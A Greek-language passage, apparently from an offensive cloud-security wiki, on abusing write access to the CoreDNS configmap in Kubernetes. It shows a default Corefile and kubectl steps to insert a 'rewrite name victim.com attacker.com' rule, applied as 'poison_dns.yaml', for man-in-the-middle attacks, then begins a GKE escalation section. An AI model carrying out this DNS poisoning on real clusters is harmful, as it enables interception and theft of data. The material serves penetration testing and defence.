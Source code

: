 ### CoreDNS config map

Αν έχετε τις άδειες να τροποποιήσετε το **`coredns` configmap** στο namespace `kube-system`, μπορείτε να τροποποιήσετε τις διευθύνσεις που θα επιλυθούν ώστε να μπορείτε να εκτελέσετε επιθέσεις MitM για **να κλέψετε ευαίσθητες πληροφορίες ή να εισάγετε κακόβουλο περιεχόμενο**.

Οι ρήματα που χρειάζονται είναι **`update`** και **`patch`** πάνω στο **`coredns`** configmap (ή σε όλα τα config maps).

Ένα κανονικό **coredns file** περιέχει κάτι σαν αυτό:
```yaml
data:
Corefile: |
.:53 {
log
errors
health {
lameduck 5s
}
ready
kubernetes cluster.local in-addr.arpa ip6.arpa {
pods insecure
fallthrough in-addr.arpa ip6.arpa
ttl 30
}
prometheus :9153
hosts {
192.168.49.1 host.minikube.internal
fallthrough
}
forward . /etc/resolv.conf {
max_concurrent 1000
}
cache 30
loop
reload
loadbalance
}
```
Ένας επιτιθέμενος θα μπορούσε να το κατεβάσει εκτελώντας `kubectl get configmap coredns -n kube-system -o yaml`, να το τροποποιήσει προσθέτοντας κάτι όπως `rewrite name victim.com attacker.com` έτσι ώστε όποτε προσπελαστεί το `victim.com`, στην πραγματικότητα το `attacker.com` να είναι το domain που θα προσπελαστεί. Και στη συνέχεια να το εφαρμόσει εκτελώντας `kubectl apply -f poison_dns.yaml`.

Μια άλλη επιλογή είναι να επεξεργαστεί απλά το αρχείο εκτελώντας `kubectl edit configmap coredns -n kube-system` και κάνοντας αλλαγές.

### Escalating in GKE

Υπάρχουν **2 τρόποι για να ανατεθούν δικαιώματα K8s σε GCP principals**. Σε κάθε περίπτωση, ο principal χρειάζεται επίσης την άδεια **`container.clusters.get`** για να μπορέσει να συγκεντρώσει διαπιστευτήρια για να έχει πρόσβαση στο cluster, αλλιώς θα χρειαστεί να **δημιουργήσει το δικό του αρχείο ρυθμίσεων kubectl** (ακολουθήστε τον επόμενο σύνδεσμο).

